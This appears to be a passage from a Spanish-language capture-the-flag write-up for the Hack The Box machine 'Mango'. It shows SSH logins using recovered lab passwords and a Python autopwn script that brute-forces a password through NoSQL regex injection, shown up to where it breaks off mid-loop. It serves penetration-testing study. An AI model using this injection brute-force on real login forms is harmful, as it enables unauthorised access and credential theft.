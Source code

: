 ```python
```

Cambiando el usuario de admin a mango, tenemos las dos contraseñas. Como el login nos lleva a un **Under Plantation**, Miramos si nos podemos connectar por **ssh**## Vuln exploit & Gaining Access {-}

### Ganando accesso con ssh {-}

```bash
ssh admin@10.10.10.162
Password: t9KcS3>!0B#2

ssh mango@10.10.10.162
Password: h3mXK8RhU~f{]f5H
```

Hemos ganado accesso al systema como el usuario **mango**.
Vemos que la flag esta en el directorio `/home/admin` tenemos que pasar al usuario admin con el comando `su admin`.

### Autopwn completo para el usuario mango {-}

```python
#!/usr/bin/python3

import pdb # Debugging
from pexpect import pxssh
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
characters = string.ascii_letters + string.digits + string.punctuation
lport = 443

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando fase de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password[mango]")
    password = ""

    for x in range(0, 20):
        for character in characters:

            p1.status("Probando con el caracter %c" % character)

            # NoSQL Injection
            post_data = {
                'username': 'mango',
                'password[$regex]': f"^{re.escape(password + character)}",
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
```